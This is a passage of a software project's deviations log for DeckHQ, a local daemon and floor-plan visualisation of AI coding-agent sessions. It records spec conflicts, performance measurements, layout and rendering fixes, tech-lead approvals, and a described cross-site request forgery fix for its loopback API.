

# DeckHQ — Deviations from the specification

`04-BUILD-PLAN.md` §5 requires every deviation from the blueprint to be documented with its
reason. This is that record. Nothing here was decided silently.

Items marked **RAISE** are genuine gaps in the specification rather than implementation choices.
They were shipped with a defensible default because leaving them unhandled would have produced a
visibly wrong product, but they are the orchestrator's call to confirm or overturn.

---

## 1. `ended` has no row in the visual spec — **RAISE**

**Spec:** `02-ARCHITECTURE.md` §3 defines `ActivityState` as including `ended`.
`03-VISUAL-SPEC.md` §5 maps six states to colours, clips and icons. `ended` is not one of them.

**Why it matters:** placement (`§3.1`) sends an `ended` session to its **project desk** — a
session that is not running still sits at its desk, and only an explicit bench moves it. So
`ended` agents are on screen. On the reference machine they are the **commonest state by far**:
40 of 51 sessions at first run.

With no row of its own, `ended` fell through to the `working` default: 40 dead sessions rendered
in the working green, playing the `type` clip. The floor said *forty agents are producing output
right now*. That is the most misleading thing this product could show.

**Shipped:** `ended` gets its own colour `#6E6A63` (warm dark grey, 3.9:1 against the carpet,
distinct from both the benched slate and the let-go grey) and the `slump` clip — seated, still,
low energy. No icon, matching `working`; the still pose plus the colour carry the distinction.
Guarded by `test/unit/state-visuals.test.mjs`.

**Decision needed:** confirm the colour and pose, or specify a different treatment.

## 2. Hook tag is `_deckhq`, not `_agentOffice`

**Spec:** `02-ARCHITECTURE.md` §6 says hook entries are tagged `"_agentOffice": true`.

**Shipped:** `"_deckhq": true`.

**Reason:** `_agentOffice` is the product's former name; the rest of the blueprint is DeckHQ
throughout. The tag is only ever written and read by this codebase, so the name is internal. Only
one adapter writes hooks, so there is no cross-adapter mismatch. Changing it later would orphan
any block already installed under the old tag — worth deciding now rather than after release.

## 3. `for_review` is sticky through session death — **RAISE**

**Spec conflict:** `01-PRODUCT.md` §2 (and `04-BUILD-PLAN.md` rule 1) make the invariant
inviolable: no observed event may remove an item from the waiting area. But `02-ARCHITECTURE.md`
§4.1 tables `SessionEnd` → `activityState = ended` and `SessionStart` → `activityState = working`
unconditionally, and §4.2 does the same on the polling path when a session stops being live.

Read literally, a session that finished its turn, walked to your office, and then exited would
walk straight back out — which is exactly the failure this product exists to fix.

**Shipped:** the invariant wins. `SessionEnd`, `SessionStart` and a poll-detected loss of liveness
flip `live` and leave `for_review` and `reviewSince` untouched. Covered by the named test
`INVARIANT: no observed event can clear reviewSince`.

**Decision needed:** confirm that §4.1's table is subordinate to §2 here, or restate §4.1.

## 4. `UserPromptSubmit` clears `reviewSince` — as specified

Kept exactly as `02-ARCHITECTURE.md` §4.1 tables it. This is the one event that clears the
waiting state without a button press, and it is defensible: it represents the user personally
submitting a turn to that session, which is a user action observed indirectly rather than runtime
drift. It is the single documented exception to the blanket invariant test.

**Extension:** on the degraded (no-hooks) path the same clearing happens when a transcript's last
turn flips from assistant to user, which is the only signal available there that the user replied.
Without it a stale `reviewSince` would outlive the reply that answered it.

**Observed in practice:** replying to a session in a terminal removes it from the waiting area
within one poll. This is intended, but it is the one behaviour a reader of §2 alone would not
predict.

## 5. Waiting badges are suppressed at L0, and never leave the office

**Spec:** §7 says the waiting badge is shown for `for_review` agents. §1.1 describes L0 as body,
state colour and state icon only.

**Shipped:** the badge draws at L1 and above, and only when `ackState === 'active'`.

**Reasons:** at fit-to-window zoom, nine badges across a waiting area overlap into an unreadable
smear; the office room plate already carries the count (`9 waiting`), and §1.1 does not list
badges among L0's elements. Separately, `bench` changes only `ackState`, so a benched agent keeps
`activityState === 'for_review'` — without the guard its crimson badge followed it into the
lounge, putting the reserved accent on the floor where nothing was waiting on the user. §5's
colour discipline is explicit that crimson means *standing in your office*.

## 6. Camera clamping and re-fit

Not in the spec. `fitToWindow` re-runs on any viewport change until the user first zooms or pans,
and the camera is clamped so at least a quarter of the viewport always contains floor.

**Reason:** without the first, the initial fit runs against the canvas's default box and the floor
lands in a corner. Without the second, zooming about a cursor that sits off the floor carries the
whole plan off screen and leaves the user on a black canvas with no indication that Fit would
rescue them.

## 7. Token totals on very large transcripts are approximate

**Spec:** §8 caps reads at 2 MB per session. §3 defines `tokens` as input + output.

**Consequence:** a 74 MB transcript's full history cannot be summed within that budget, so usage
is summed over the bounded window only. This is stated in the README's "Honest limits" rather
than presented as an exact figure. `scanSessions` also sorts by parsed `lastActivityAt` rather
than file mtime, because mtimes on the reference machine are disturbed by unrelated tooling and
were wrong by up to 54 days.

## 8. Codex support is implemented but unverified

Codex is not installed on the reference machine (`~/.codex` does not exist). The adapter is a
real implementation written against the documented rollout-file conventions, with every field
extraction trying several key aliases, but **no part of it has run against real Codex data**.
`available()` returns `false` cleanly and every other method degrades without throwing. Its hooks
report `supported: false`, so Codex sessions use the polling path and cannot distinguish
`needs_input` from `stalled` — surfaced in the header.

## 9. Unverified paths

Honest inventory of what was not exercised on this machine:

- ~~`send()` for either runtime.~~ **Closed, 2 Sep 2026.** Exercised against a throwaway session
  created for the purpose: `claude --resume <id> -p <text> --output-format json` returns the same
  `session_id` it was given and appends both turns to the same transcript file. It does not fork a
  new session — which, had it done so, would have put a duplicate agent on the floor for every
  reply sent from the panel. Codex's `send()` remains unexercised along with the rest of that
  adapter.
- `openInTerminal()` and `openNewSession()` on macOS and Linux (Windows-only machine).
  **Widened and re-stated, WP-04.** Both now go through a table of ten emulators
  (`src/core/terminals.mjs` since §95) instead of one `.command` file and four `-e`
  guesses. Every one of them is **implemented against the emulator's own documented CLI or
  scheme, and unit-tested**: `test/unit/terminals.test.mjs` asserts the exact argv array for
  all 21 (platform, emulator, launch form) pairs, and the pair list is checked against the
  table, so an emulator cannot be added without one. Detection, `$TERMINAL` precedence, the
  `terminal` settings pin and the shell-metacharacter cases are covered too.
  **None of it has been run on a real Mac or a real Linux desktop.** No application has been
  opened, no `open -na` has been executed, no AppleScript has been compiled by `osascript`,
  and no `.command` file has been double-clicked by Terminal.app. A unit test proves the argv
  is what the documentation says; it cannot prove the documentation is right, and rule §1.1.11
  of `docs/plan/08-PLAN-V2-100X.md` says exactly that. **Acceptance step, still outstanding:
  verify by hand on a real Mac and a real Linux desktop, and record here which emulators
  actually launched, which did not, and what each one did instead.** Until that line exists,
  README's "Honest limits" keeps saying macOS and Linux are unverified. See §88 for the
  design and for the specific claims that are most likely to be wrong.
- Hook install/remove against the user's real `settings.json`. It was verified against fake
  settings files in isolated processes: fresh install, no-op on double install, byte-identical
  restore, survival of unrelated hand edits, and a clean abort on malformed JSON.
- `prefers-reduced-motion` was verified by unit test and code review, not by a browser with the
  setting enabled.

## 10. Additions to `Pose` beyond `03-VISUAL-SPEC.md` §3

`ring`, `ringPhase`, `fingerPhase`, `thoughtPhase` and `speechPhase` were added. The rig receives
only a sampled `Pose` — no clock and no clip name — so every time-varying decoration must ride in
the pose. `ring`/`ringPhase` (the hand-raise pulse) and `fingerPhase` (L2 finger taps) are
required by §4.1; the other two make `think`'s thought dots and `chat`'s speech dots renderable,
without which those clips are not distinguishable at L1 as §4 requires.

## 11. Performance: measured numbers, and the one budget that is tight

`02-ARCHITECTURE.md` §8 sets the budgets. Measured on the reference machine (Windows 11, ARM64,
51 real sessions across 16 projects, one transcript at 74 MB):

| Budget | Limit | Measured |
|---|---|---|
| Idle CPU, tab visible | < 2% of one core | **1.9%** (1.67 s CPU per 90 s idle) |
| Daemon memory | < 150 MB | **71.5 MB** steady state |
| Backdrop re-bake, 12 projects | < 400 ms | **187 ms** |
| Frame budget, 25 characters at L2 | 16 ms | **1.9 ms** |
| Scan of 200 sessions | < 1500 ms | **~1.3–1.7 s for 51 sessions** — see below |

**The scan budget is not met, and this is a real deviation.** A cold scan of 51 sessions takes
1.3–1.7 s, so 200 sessions would take considerably longer than 1500 ms. The cost is CPU-bound
JSON parsing of the ~100 MB that a full 2 MB tail window across 51 transcripts amounts to, not
disk: raising read concurrency from 8 to 16 bought no wall-clock time and did raise peak memory,
so it was reverted.

Two fixes were tried and rejected:

- **A tiered tail read** (384 KB first, escalating to 2 MB only when incomplete) cut the cold scan
  to ~600 ms — but it undersampled precisely the largest sessions, dropping `career-ops` from
  2.64M to 0.93M tokens. That inverts the per-project comparison token accounting exists to
  answer (`01-PRODUCT.md` F9), so accuracy won over speed.
- **Higher read concurrency**, as above.

What *was* fixed is the far more serious problem this measurement exposed: the daemon re-read and
re-parsed every transcript on **every 5-second poll**, costing roughly 100 MB of I/O and parsing
every five seconds, and sustaining **~20% of one core and 229 MB RSS** — ten times the CPU budget,
forever. A summary cache keyed by file path and invalidated by `(mtime, size)` reduced warm scans
from ~1700 ms to **3–5 ms**, which is what brought idle CPU inside budget. Almost every session on
disk is finished and can never change again; only the live handful are re-read.

The remaining cold scan happens **once per daemon start**, and the daemon is designed to run all
day and outlive the browser tab. A persistent on-disk summary cache would remove even that, and is
the obvious next step if the session count on a real machine grows toward 200.


---

# Tech lead decisions — 30 Aug 2026

Every **RAISE** above is now closed. Where a decision changed a specification document, that
document has been amended in place and dated, so the specs remain the single source of truth.

**§1 `ended` has no visual row — APPROVED as shipped.** This was a gap in my specification, and
catching it mattered: 41 of 52 sessions on the reference machine are `ended`, so the default
inheritance would have rendered a dozen dead sessions as green typing agents. A monitoring surface
that reports work happening where none is is the worst failure available to this product. The
colour and pose are now canonical in `03-VISUAL-SPEC.md` §5.

Placement is deliberately unchanged: an `ended` session stays at its project desk. Sessions leave
a desk only by user action, and first-run seeding already sends anything older than 14 days to
`let_go`, which bounds the visible dead population.

**§2 Hook tag `_deckhq` — APPROVED.** The spec predates the rename. `02-ARCHITECTURE.md` §6 now
says `_deckhq`.

**§3 `for_review` sticky through session death — APPROVED. The specification was wrong, not the
code.** §4.1's table was written as a flat mapping and I failed to carve out the invariant, which
made two of my own documents contradict each other. The team resolved it the only defensible way.
§4.1 now carries a dated amendment making it explicitly subordinate to §2.

**§4 `UserPromptSubmit` — APPROVED, and verified deeper than reported.** The risk the note does
not name is that Claude Code records tool results as user-role turns, so the degraded path could
have discharged a debt on a tool result rather than a reply. It does not: `lastRole` flips only on
a non-empty *text* block, and sidechain traffic is excluded. That guard is load-bearing and is now
named in the §4.1 amendment so it survives future edits.

**§5 Badge suppression — APPROVED.** Correctly derived from §5's colour discipline: crimson means
*standing in your office*, so a benched agent must not carry it into the lounge.

**§6, §7 — APPROVED**, no spec change needed.

**§8 Codex unverified — BLOCKING for any release claiming Codex.** The adapter may stay. The
*claim* may not: `package.json` and the README asserted Claude Code and Codex support that cannot
be demonstrated. Both have been corrected today to describe Codex as included but unverified.
Before any public release, either exercise the adapter against a real Codex install and run the
acceptance script against it, or ship as a Claude Code tool. Do not restore the two-runtime claim
on the strength of code review alone.

**§11 Scan budget — the budget was wrong, not the implementation.** My `< 1500 ms for 200
sessions` conflated two different things. A cold scan happens once per daemon start and the daemon
is designed to outlive the browser tab; a warm scan happens every poll and is what actually
governs idle cost. §8 now sets cold < 5000 ms and warm < 50 ms, both of which are met with room
(measured warm: 3–5 ms; observed API latency ~1 ms).

Rejecting the tiered-read optimisation was the right call. It bought 700 ms by undersampling the
largest sessions, which inverted the per-project token comparison that F9 exists to answer — a
correctness regression traded for speed nobody asked for. The persistent on-disk summary cache
remains the correct follow-up and is **not** a v1 blocker.

## Findings from review, not previously reported

1. **Name labels collide with desk furniture at L1** and are truncated mid-word, so at the zoom
   where the office is meant to be readable, the one thing identifying each agent is the hardest
   thing to read. Polish defect; fix before release.
2. **The lounge does not shrink when empty.** With zero benched agents it still occupies a large
   share of the floor — most visible on first run, which is exactly when a new user forms their
   impression. §2.1 specifies a minimum size and growth but no contraction; give it a compact
   empty state.

Neither blocks the acceptance script. Both are visible in the first thirty seconds of using the
product, which is the wrong place to leave rough edges.

---

# WP13 — layout rework

## 12. The floor aspect clamp had to widen — **RAISE**

**Spec conflict.** `05-LAYOUT-REWORK.md` §2.2 sets
`targetAspect = clamp(viewportWidth / viewportHeight, 1.60, 1.78)`. §3.1 requires that at every
viewport from 1280×720 to 2560×1440 the floor **exactly fills** the stage, with "no letterbox band
wider than 8 px", and calls that "the acceptance test, not an aspiration".

These cannot both hold. Once the header is subtracted, those viewports give stage aspects of
roughly **1.85 – 1.93**, all above 1.78. Measured with the spec's clamp in place, four of the five
sizes letterboxed by **100 – 115 px**; only 1440×900 filled.

**Shipped:** the clamp is widened to `[1.20, 2.20]`. Measured after the change: letterbox is
**0 px on both axes at all five viewport sizes**, and floor aspect matches the stage exactly.

**Why this is the safe half of the conflict to give up.** The narrow clamp exists so rooms do not
become corridors — but room proportions are protected separately and independently by the
`[0.6, 1.8]` room-aspect clamp in §2.2, which is enforced during the re-flow pass and verified in
the tests. A wider *floor* cannot turn a *room* into a corridor. Giving up §3.1 instead would have
left the headline defect of the whole rework — a letterboxed floor in a black field — unfixed.

**Decision needed:** confirm the widened range, or restate §3.1's tolerance.

## 13. LOD had to be rebased on effective scale, not the zoom multiplier

§2.4 redefines zoom 1.0 as fit-to-viewport, so the user-facing zoom is now a **multiplier on a fit
scale** rather than an absolute world-to-pixel ratio. `03-VISUAL-SPEC.md` §1.1's LOD bands
(`< 0.7` → L0, `0.7–1.4` → L1, `> 1.4` → L2) were written against the old absolute ratio.

Left unchanged, the bands would have read the multiplier: L0 would have become **unreachable on
any floor**, and a large floor would have been pinned at L1 no matter how far out it was. The
Scene now derives the band from the effective pixels-per-unit, which restores exactly the
behaviour §1.1 describes.

## 14. Waiting badges are gated on fit, not on a LOD band

Deviation §5 suppressed badges at L0. Since L0 is no longer reachable by zooming out, that gate no
longer did anything, and a full waiting area again rendered a dozen overlapping crimson pills.

Badges now appear only when there is physically room for one: below ~14 px per unit, adjacent
badges over the 3.2 U office seat pitch cannot help but collide. The office room plate carries the
aggregate instead — `12 waiting · oldest 1d 18h` — so the *longest* wait, which is the number that
makes debt visible, is legible at a glance without any zooming at all.

## 15. Label priority is not label exemption

The review's finding 1 (labels colliding at L1) was fixed with a collision resolver in which
selected and needs-you labels were placed unconditionally, on the reasoning that important labels
should never be dropped.

That collapsed in the one case that matters most: **every agent in the waiting area is
`for_review`, so every one of them was exempt at once**, and the office rendered as an unreadable
band of overlapping names — the original defect, reproduced by its own fix.

Exactly one label is now truly exempt: the selected agent's. Needs-you labels keep first claim on
space but are still collision-checked, and are offset or dropped like any other. Measured on the
live floor with 12 waiting agents at a 68 px seat pitch: **12 of 12 labels placed, 0 overlaps.**

## 16. The prop coordinate convention was inconsistent — this was the misalignment

**The actual root cause of the floor looking wrong.** `backdrop.js`'s `paintProp` translated to
`(prop.x, prop.y)` and then drew every shape about that origin (`-w/2, -h/2`) — so it treated a
prop's `x, y` as its **centre**. WP13's anchor resolver computes **top-left** coordinates, like
every other rectangle in the layer (`Room`, `Zone`, the packer, the tests).

Every desk, chair, monitor, whiteboard and rug was therefore drawn offset by **half its own size,
up and to the left**. On a rug 22 U wide that is 11 U — which is why a sage slab appeared to float
in the corridor outside the office.

It survived a full green test suite because the tests measure top-left rects too: the geometry and
its tests agreed with each other, and only the painter disagreed with both. No assertion could see
it; only rendering the backdrop in isolation could.

**Shipped:** a `Prop` is a top-left rect, stated in its typedef, and `paintProp` translates to the
rect's centre before drawing. One convention across the whole layer.

## 17. The treemap was replaced by a bin packer — **RAISE**

§2.2 specifies a squarified treemap. Implemented, measured, replaced: a treemap and §2.1 are
structurally incompatible. A treemap assigns each room an **area** and lets the packing dictate its
shape; §2.1 says furniture dictates the shape and the room is its bounding box plus a margin.

Both ways of reconciling them were built and measured on the 16-project fixture:

| Approach | Floor that is room | Room that is furniture | Verdict |
|---|---|---|---|
| Room centred in its tile | 60% | 100% | Surplus becomes a **halo** around every room — the scattered-on-a-field defect, moved from props to rooms |
| Room fills its tile | 78% | 31–75% | Surplus moves **inside the walls** — the empty middles §2.1 exists to abolish |
| **Shelf packing (shipped)** | **~58%** | **100%** | Rooms are exactly their furniture; all slack is corridor |

Rooms are now packed in height order (a shelf is as tall as its tallest member, so mixing a 22 U
room with 12 U ones wastes the difference under every short room), the packing is chosen to
minimise wasted floor rather than aspect error, and the floor is sized to include an outer corridor
— without which a full row overflowed the floor edge.

**Decision needed:** confirm the packer change, or restate §2.2 in terms of the outcome it wants
rather than the algorithm.

## 18. Room proportion is now decided where shape is actually determined

With rooms at their natural size, a room's aspect is a pure consequence of how its benches are
flowed. `bestBenchColumns` therefore picks the column count that lands closest to square while
refusing any arrangement outside `[0.6, 1.8]`, which makes legality structural instead of something
a later repair pass has to fix. Verified for **every session count from 1 to 60**: all room aspects
legal, every session seated.

## 19. Circulation is a different material, not a different tint

Project rooms and the corridors between them were both painted the same woven carpet, so room
boundaries were invisible and the floor read as scattered furniture however well the props were
anchored. Circulation is now a poured screed — a different material, plus a hairline at the
boundary — because at fit zoom a 0.3 U partition is barely a pixel and cannot carry the distinction
on its own.

## 20. Off-floor agents had a position

`AgentRuntime.sync` gave every agent a record, falling back to the floor origin when it had neither
a seat nor a destination room. `let_go` agents have neither — so on the reference machine **29 of
them were stacked at (0, 0)**, a smear of bodies and labels in the top-left corner of the floor.
An off-floor agent now gets no record at all.

---

# WP14 — continuous floor plan

The user replaced the model: one continuous office floor, partially divided by
walls, instead of discrete rooms laid out on a field. `05-LAYOUT-REWORK.md` §2
is superseded in turn.

## 21. Zones tile the envelope; walls belong to the floor

The floor is a single building envelope subdivided into zones that **tile it
exactly** and share their boundaries. Measured: zone coverage is **100.0%** of
the envelope — there is no leftover floor, because leftover floor is what the
previous two models kept producing in different places.

Walls are derived from shared zone edges rather than drawn per room, so a
partition between two zones is **one** wall, not two outlines back to back.
Exterior edges become exterior walls, the user's office keeps solid walls with
a door, and everything else is a waist-height partition.

## 22. Furniture follows headcount, and tables come in sizes

A project's furniture is now derived from its team, not from a fixed bench
formula. Tables seat 2, 4, 6 or 8; a project that outgrows eight gains a
**second table** rather than a longer one, as a real office would:

`1 → [2]`, `3 → [4]`, `5 → [6]`, `9 → [8, 2]`, `12 → [8, 4]`, `21 → [8, 8, 6]`.

The zone grows to hold the tables, and the floor re-tiles. Adding a project
adds a zone; there is no fixed room count anywhere.

## 23. The anchor hierarchy is now literal

    floor
      walls        on zone boundaries
      tables       anchored in their zone
        chairs     anchored to their table edge
          agents   seated on their chair
        plants     anchored beside their table

Plants moved from room corners to table ends, which is where they are in the
reference plan and which removes the last prop whose position was a property of
the room rather than of a piece of furniture.

## 24. Cells are tiled by row, not by area — **RAISE**

A treemap subdivides by AREA and lets each cell's shape fall out of the
packing. Measured on the 16-project fixture, that produced cells like **38 × 10
for a zone whose furniture is 5 × 5**. Nothing lays out in a cell that shape, so
the fitting loop grew the whole building instead: the floor came out **154 × 86
holding furniture that covered 12.4% of it**.

Row tiling keeps every cell near the shape its contents want. Same fixture,
after the change: floor **112 × 63**, furniture coverage **23.6%**, zones still
covering 100%. A zone whose cell is still a poor fit re-flows its tables to the
cell's proportions before the building is allowed to grow at all.

**Decision needed:** confirm row tiling as the layout rule.

## 25. Starting a new project

`POST /api/new-project { cwd }` opens a terminal running a fresh session in an
existing directory, via a new `openNewSession` adapter method. A project **is**
its directory, so there is nothing else for the daemon to create — the room
appears on the floor at the next scan. The directory must already exist;
DeckHQ will not create directories on the strength of a POST body.

## 26. The rig was drawn a quarter-turn out of true

The user's report: *"the characters have hands on one side and head on other
side, looks like hands are on backside."*

`rig.js` authors its body parts in a local frame where forward is local `-y`,
then rotated every part by `pose.bodyAngle` directly. But `bodyAngle` is
specified with **0 facing +x**, the same convention `plan.js` uses for
`Seat.angle`. The two are a quarter-turn apart, and because the wrong rotation
was applied uniformly, nothing looked obviously broken — it just looked wrong.

Proved geometrically rather than by eye: rendering real poses through a
transform-tracking fake context, the dot product of the head's displacement
with the true facing vector came out **exactly 0** for every clip at every
angle — the head was displaced along the character's *side* axis. The hands,
whose variation is mostly lateral, ended up spread along the *forward/back*
axis. Against a desk that reads precisely as a head turned sideways and arms
coming out of the back.

Fixed by composing one `facingRot = bodyAngle + π/2` and threading it through
every part. A second, smaller defect surfaced while verifying: in the `type`
clip — the commonest state on the floor — the reaching hand landed about 0.01
local units on the correct side of centre, a coin flip once floating point is
involved. The shoulder offset now leaves real margin.

`test/unit/rig-orientation.test.mjs` asserts head-forward and hand-forward
across four facings and five phases of four clips. It was proved load-bearing
by reverting the fix and confirming 4 of its 5 tests fail.

## 27. Zoom removed

The user removed the feature. The floor is always fit-to-window: no slider, no
`+`/`−`/Fit, no `Ctrl`+wheel, no drag-to-pan, and the persisted `zoom` setting
is no longer read or written. `03-VISUAL-SPEC.md` §1's zoom range and
`05-LAYOUT-REWORK.md` §2.4 are both superseded.

LOD bands survive and still key off effective pixels-per-unit, which is now
simply the fit scale — so the close-up detail in `03-VISUAL-SPEC.md` §1.1 is
reachable on a small floor and not on a large one, rather than being something
the user dials in.

Removing drag-to-pan moved the pointer handlers from the window onto the
canvas, which would have left the hover tooltip stuck after the cursor left the
floor; a `pointerleave` handler clears it.

---

# WP15 — identity, launchers, and a security fix

## 28. Cross-site request forgery — **found while adding script execution**

Binding `127.0.0.1` keeps the network out. It does **not** keep other web pages
out: any site the user visits can POST to loopback, and the browser sets a
correct `Host` header on that request, so the loopback check in `daemon.mjs`
waved it through.

That was already exploitable before this work — a page in another tab could
spawn a terminal via `/api/open` or inject a prompt into a live session via
`/api/send`. Adding "run this project's `dashboard.bat`" would have made it
critical.

Mutating requests now require an `Origin` that is loopback, and reject
`Sec-Fetch-Site: cross-site`. GETs are unaffected. Covered by two named
`SECURITY:` tests in the daemon integration suite.

`02-ARCHITECTURE.md` §9 says no authentication is required "precisely because
it is not reachable from the network". That reasoning is incomplete and the
document should say so: loopback protects against remote attackers, not
against the user's own browser.

## 29. Identity: MK tags

Session titles are the user's own sentences — too long for a floor plan and
different every time. Every agent now carries `MK<project>.<agent>`, assigned
on first sight and **persisted**, so a tag never comes to mean something else.
A number is not reused after an agent is let go: a gap in the sequence is
better than `MK3.2` meaning a different session next week. A user-chosen short
name replaces the tag on the floor; the tag stays in the hover card.

Guarded by `test/unit/identity.test.mjs`, including stability across a daemon
restart and non-reuse after removal.

## 30. Per-project appearance vs. the colour discipline — **RAISE**

The user asked for per-project colour so agents are recognisable without
reading. `03-VISUAL-SPEC.md` §3 makes body colour the STATE colour precisely so
state stays readable, and §5 reserves crimson for `for_review`.

Resolved by splitting the channels rather than overriding one: the torso keeps
the state colour, and project identity rides on hair, a clothing accent and an
avatar glyph. A test asserts no project accent is near crimson, so the reserved
accent cannot leak into decoration.

**Decision needed:** confirm the split, or say that per-project colour should
win over state colour on the body.

## 31. Furniture is a verb

The floor is a spatial launcher: a shelf opens the project's folder, a screen
runs its dashboard. Rather than hardcoding those two, projects declare actions
in an optional `.deckhq.json`, with conventional filenames auto-detected. On
the reference machine three real projects were found to have a `dashboard.bat`
with no configuration at all.

Execution safety, since this runs code:

- The browser sends an **action id**, never a command. The daemon resolves what
  that id means for that project.
- Every runnable action resolves to a file that already exists **inside** the
  project directory — the same trust the user extends by keeping it in their
  repo.
- Paths that escape the project are **refused, not clamped**; likewise `file:`
  and `javascript:` URLs. Ten tests in `test/unit/actions.test.mjs` cover the
  refusals specifically.

## 32. A central corridor

The floor now lays out a full-height spine between the office/lounge side and
the working floor, plus a corridor between each row of project rooms, so an
agent can reach the lounge or the user's office without crossing another team's
room. The walk router treats corridors as walkable rather than as obstacles.

Corridors are sized by the plan, not by contents. Omitting them from the
zone-fitting check was not optional: counting a corridor as "does not fit" grew
the building by 2.3x on **every** iteration, compounding to a floor eight times
larger than its furniture needed.

---

# WP16 — confinement, reception, lounge

## 33. Agents were escaping the building — **the router had no idea where the walls were**

Reported: agents left the manager's office in an arbitrary direction, walked
off screen, and reappeared on the far side.

Cause: `planWalk` did generic obstacle avoidance, and when a direct line was
blocked its last-resort fallback swept **around the bounding box of the
obstacles**. That box's edges lie outside the building, so leaving the floor
was a legal route in a model that contained no walls at all.

Replaced with a real navigation graph. `plan.js` now publishes `plan.nav`:
corridor centrelines, plus a `door` and a `navEntry` on every room. An agent
leaves by its own door, joins the corridor that door opens onto, travels the
network, and enters the destination the same way. A cross corridor's centreline
is deliberately extended left to meet the spine's, so the graph is connected —
the overlap lies inside the spine, which is walkable floor.

Every waypoint is additionally clamped to the floor rectangle, so even a bug in
the graph cannot put an agent outside the building.

Guarded by `WALK CONFINEMENT: a route never leaves the building and never
crosses a wall`, which routes between five room pairs and asserts no waypoint
leaves the floor and no segment midpoint lands inside a third room.

## 34. The reception is seated around the walls, and only one chair faces the desk

Two rules, both from how an office actually works:

- **Seating hugs the walls.** Runs on the west, south and east walls leave the
  middle of the room clear. The previous C-shaped group floated in the centre
  and read as cramped, because the only circulation left was the gap between
  the furniture and the wall.
- **Nobody sits across from the manager except the person being seen.** There
  is exactly one guest chair at the desk and it belongs to the front of the
  queue. Everyone else waits on the wall seating; loose chairs appear only when
  the room is genuinely full (past 19).

## 35. A sofa's rectangle is what says how it lies

The horizontal run in the reception rendered upright. `paintProp` rotates by
`angle`, but the sofa painter lays its cushions along `w` — so a correctly
horizontal `13 x 2.6` sofa, rotated by a further `-PI/2`, came out vertical and
across its own footprint.

The painter now reads the rect: wider than deep is horizontal, deeper than wide
is vertical, and it draws in a quarter-turned frame for the latter. `angle` is
left to mean which way the sofa faces, which is what it means everywhere else.
This matters beyond sofas — the layout rect is used for bounds and anchors, so
any prop whose `angle` disagreed with its rect would be mispositioned as well
as mis-drawn.

## 36. The lounge reads as a rest area within a second

Furnished whether or not anyone is in it — 23 props when empty (TV, sofas,
round rug, coffee table, bar counter and stools, coffee machine, fridge, fruit
bowls, bookshelf, plants, lamps) — growing to 30 as games appear with the
benched population: dining at 1, pool at 3, table tennis at 5, foosball at 7,
board games at 9, arcade at 11.

Also fixed: `coffee_table` had no painter and had been rendering as a grey box
since the lounge was first built.

## 37. Seats are derived from resolved furniture, not from the layout frame

Reported: the reception sofas were against the walls, but agents sat on the
floor beside them.

The sofas are **wall-anchored**, so their real coordinates are not known until
the room has been sized, tiled and had its anchors resolved. Seats were being
computed in the pre-anchor layout frame, so they described where the sofas had
been *before* anchoring. Two frames, one of them stale.

`buildOffice` now decides only how many people the room can seat (and lays out
loose chairs for any overflow); `seatOffice` runs after `resolveAnchors` and
derives every seat from the furniture's final position. Guarded by a test that
asserts every waiting agent, at 1, 5, 14 and 25, is within tolerance of an
actual sofa or chair rect.

This is the same failure as the sofa rotation and the upright monitor, in a
third guise: **two representations of the same thing, allowed to disagree.**

## 38. A prop's rect is how it lies; `angle` is only which way it faces

The desk monitors rendered on end. `w: 1.6, h: 0.5` already describes a wide,
shallow screen lying across the table edge — rotating it by the occupant's
facing on top of that stood it upright and across its own footprint.

Because the rect drives bounds, anchors and hit-testing as well as drawing,
any prop whose `angle` disagrees with its rect is mispositioned, not merely
mis-drawn. Asserted now for monitors, and the sofa painter reads its rect the
same way.

## 39. Walking speed

Raised from 4.5 to 13 units per second. Routes now go door to corridor to
door instead of cutting across the floor, so the same journey covers
considerably more ground; at the old speed a trip to the lounge read as an
agent stuck rather than walking.

## 40. The thinking cue is a cloud, not three dots

Three dots in a row read as "loading". A lobed thought cloud with a rising
trail of bubbles, in the comic-strip idiom, reads as thinking at a glance —
which is the only reason the `working` state has a visible thinking pose.

## 41. `for_review` needs an ended turn, not "the assistant spoke last"

Reported: an agent that had just started running walked to the manager's
office instead of its desk.

On the degraded/poll path the test was `lastRole === 'assistant'`. That is
true for the *whole* of a running tool call. An assistant turn that calls a
tool narrates first ("Let me check X") and emits the `tool_use` in the same
turn; the `tool_result` comes back as a `user` record carrying no text block,
and `contentToText` reads only `text` blocks — so the narration stays the last
text in the file until the tool returns. Measured against live transcripts,
two of eight recent sessions were being classed `for_review` while busy, one
of them this very session.

Asking "is a tool open" was not enough either: between a `tool_result` and the
next assistant message no call is outstanding, yet the model is generating.

The parser now reports `turnEnded`, read from the last real record in the
tail:

  - assistant, `stop_reason: "end_turn"`  -> the turn ended. Up for review.
  - assistant, `stop_reason: "tool_use"`  -> still working.
  - a `user` record (tool result or prompt) -> the model is generating.

`stop_reason` is the primary signal because a logical assistant turn is
written as SEVERAL JSONL lines, one per content block. The text block lands
before its `tool_use` block, so for an instant the newest line looks like a
finished turn — but every line of that turn already carries
